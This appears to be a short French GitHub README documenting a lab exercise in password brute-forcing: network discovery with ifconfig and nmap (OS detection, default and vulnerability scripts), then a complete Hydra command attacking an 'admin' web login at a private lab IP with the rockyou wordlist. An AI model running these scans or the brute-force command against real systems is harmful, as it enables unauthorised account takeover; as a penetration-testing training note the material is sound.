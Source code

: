 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V
